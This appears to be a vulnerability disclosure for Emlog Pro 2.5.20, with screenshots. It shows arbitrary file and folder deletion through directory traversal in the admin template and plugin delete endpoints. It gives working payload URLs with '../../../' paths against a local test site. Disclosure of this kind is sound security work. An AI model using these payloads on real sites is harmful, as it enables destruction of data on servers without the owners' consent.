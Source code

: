 Emlog Pro 2.5.20
Arbitrary file deletion vulnerability in the backend interface.

The Emlog Pro version 2.5.20 has an arbitrary file deletion vulnerability. This vulnerability stems from the admin/template.php component and the admin/plugin.php component. They fail to perform path verification and dangerous code filtering for deletion parameters, allowing attackers to exploit this feature for directory traversal. Complete the deletion of the specified files and folders! It undermines the integrity and stability of the system and affects its normal operation.

1. The functionality is primarily located in the backend template and plugin deletion process, as shown in the figure:
Template:
<img width="415" height="270" alt="image" src="https://github.com/user-attachments/assets/6a11c857-6739-4541-801d-eea24d423b3f" />


plugins：

<img width="415" height="293" alt="image" src="https://github.com/user-attachments/assets/608a4d5b-0cf5-4ba0-b3e1-01bf045976e1" />


1.Capture and delete APIs
Appearance：
http://localhost/admin/template.php?action=del&tpl=test&token=a4539d9677172ad9e96c7e02ebac0956f00babc9

<img width="415" height="283" alt="image" src="https://github.com/user-attachments/assets/e6cf4080-6063-42c0-ad5f-9a96d26be19b" />

<img width="415" height="273" alt="image" src="https://github.com/user-attachments/assets/1cc4c759-5a77-49de-9bd2-b0cc01b4ce9f" />


plugins：
http://localhost/admin/plugin.php?action=del&plugin=tips/tips.php&token=a4539d9677172ad9e96c7e02ebac0956f00babc9

<img width="416" height="258" alt="image" src="https://github.com/user-attachments/assets/48f217e7-d7cb-4026-81a4-94ae0b185796" />


2.Build the deletion payload
First, based on the deletion parameters and the location of template and plugin functions, the deletion starts in the templates and plugins of the content.

<img width="416" height="141" alt="image" src="https://github.com/user-attachments/assets/96fd4ad6-4d1d-4d4a-adcc-a4c98feb73c5" />

<img width="416" height="141" alt="image" src="https://github.com/user-attachments/assets/6e71efb7-3447-4c48-9a10-ac2b825600aa" />


So create a test folder outside the web application and perform directory traversal to delete the specified file:

<img width="415" height="241" alt="image" src="https://github.com/user-attachments/assets/108b15fb-1913-4a1a-8202-12db534fca8b" />

<img width="415" height="117" alt="image" src="https://github.com/user-attachments/assets/db9b3ef6-1495-4b44-b964-56e0924d2f0c" />



Try running the payload to delete:
The template interface successfully deleted 111.txt
http://localhost/admin/template.php?action=del&tpl=../../../test/111.txt&token=a4539d9677172ad9e96c7e02ebac0956f00babc9

<img width="415" height="232" alt="image" src="https://github.com/user-attachments/assets/0889bda6-8f4a-4b34-8df6-7db0fc12f06f" />


The plugin interface successfully deleted the test folder:
http://localhost/admin/plugin.php?action=del&plugin=../../../test/&token=a4539d9677172ad9e96c7e02ebac0956f00babc9

<img width="416" height="259" alt="image" src="https://github.com/user-attachments/assets/29cafc98-f366-4a06-9ae9-8197b27d8527" />


4. This implements the arbitrary file deletion function of emlog pro, which can destroy the integrity and stability of the system.
